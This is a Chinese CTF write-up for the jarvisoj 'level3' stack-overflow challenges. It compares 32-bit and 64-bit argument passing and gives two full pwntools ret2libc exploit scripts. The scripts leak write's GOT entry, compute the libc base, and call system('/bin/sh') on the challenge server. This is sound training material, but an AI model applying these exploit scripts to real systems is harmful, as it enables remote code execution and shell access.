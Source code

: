 64位程序和32位的区别就是在于参数的传递。32位使用栈帧来作为传递的参数的保存位置，而64位使用寄存器，分别用rdi,rsi,rdx,rcx,r8,r9作为第1-6个参数。rax作为返回值
64位没有栈帧的指针，32位用ebp作为栈帧指针，64位取消了这个设定，rbp作为通用寄存器使用。

具体可以看这篇：<https://yq.aliyun.com/ziliao/483166>

用两道题目一样但一个是32位一个是64位来看看具体的区别。

题目地址： https://pan.baidu.com/s/1wsts4hC25ndlw_DPA-fsRg

提取码：01un

主函数

int \__cdecl main(int argc, const char \*\*argv, const char \*\*envp)

{

vulnerable_function();

return write(1, "Hello, World!\\n", 0xEuLL);

}

ssize_t vulnerable_function()

{

char buf; // [rsp+0h] [rbp-80h]

write(1, "Input:\\n", 7uLL);

return read(0, &buf, 0x200uLL);

}

很明显的栈溢出，但文件里面没有给system和/bin/sh但给了libc所以需要leak出基址就可以了。这里要栈溢出两次，第一次返回到主函数。

32位的exp

\#!/usr/bin/env python

\#-\*- coding:utf-8 -\*-

from pwn import \*

\#context.terminal = ['terminator','-x','sh','-c']

\#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

elf=ELF('level3')

libc = ELF('libc-2.19.so')

\#r=process('level3')

r=remote('pwn2.jarvisoj.com',9879)

\#pwnlib.gdb.attach(r)

write_plt=elf.plt['write']

write_got=elf.got['write']

main=elf.symbols['main']

payload=flat(['a'\*140,write_plt,main,1,write_got,4])

r.recvuntil("Input:\\n")

r.sendline(payload)

write_addr = u32(r.recv(4))

base_addr = write_addr - libc.symbols['write']

sys_addr=base_addr+libc.symbols['system']

binsh_addr=base_addr+libc.search('/bin/sh').next()

payload=flat(['a'\*140,sys_addr,'a'\*4,binsh_addr])

r.recvuntil("Input:\\n")

r.sendline(payload)

r.interactive()

64位就需要先找到几个传参数的寄存器。用ROPgadget来找比较方便。但是这里存在一个问题
:  
当我们想要构造 write() 函数的调用栈的时候 ,
参数的传递需要通过寄存器传参的方式进行也就是说要调用 write(1, read_got,
0x08)我们需要将 :  
rdi 设置为 1  
rsi 设置为 read() 函数在 got 表中的地址  
rdx 设置为 0x08  
我们来通过 ropper 来寻找一下 pop rdi; ret 指令 ,
发现可以成功在可执行程序中找到pop rsi; ret 也可以顺利找到但是 pop rdx; ret
却找不到 , 这个时候应该怎么办呢 ?如果我们不设置 rdx寄存器的值的话 , 那在 write()
调用的时候就会直接取得 rdx 之前的值  
我们可以考虑一下 , 我们这里只需要获取 write() 返回的前八个字节作为地址  
那么就算打印的数据较多 , 也并不会影响什么 , 只需要能保证 rdx 寄存器的值大于 8
即可经过调试发现这里 rdx 的值确实是大于 8 的 ,
这样我们就只需要接收前八个字节作为地址即可。

0x00000000004006b3 : pop rdi ; ret

0x00000000004006b1 : pop rsi ; pop r15 ; ret

拿到了两个地址之后就是leak出write的真实地址计算基址就行了。第二次溢出就一个参数，只要用rdi就行了。

Exp

\#!/usr/bin/env python

\#-\*- coding:utf-8 -\*-

from pwn import \*

\#r=process('./level3_x64')

elf=ELF('level3_x64')

libc=ELF('libc-2.19.so')

r=remote("pwn2.jarvisoj.com", "9883")

\#libc=ELF('/lib/i386-linux-gnu/libc.so.6')

vul_ret_addr=0x04005E6

pop_rdi_addr=0x004006b3

pop_rsi_addr=0x004006b1

write_plt=elf.plt['write']

write_got=elf.got['write']

payload='a'\*0x88+p64(pop_rdi_addr)+p64(1)+p64(pop_rsi_addr)+p64(write_got)+'daassaas'+p64(write_plt)+p64(vul_ret_addr)

r.recvuntil("Input:\\n")

r.sendline(payload)

write_addr=u64(r.recv(8))

write_libc=libc.symbols['write']

base_addr=write_addr-write_libc

system_addr=libc.symbols['system']+base_addr

bin_addr=libc.search('/bin/sh').next()+base_addr

payload='a'\*0x88+p64(pop_rdi_addr)+p64(bin_addr)+p64(system_addr)

r.sendline(payload)

r.interactive()
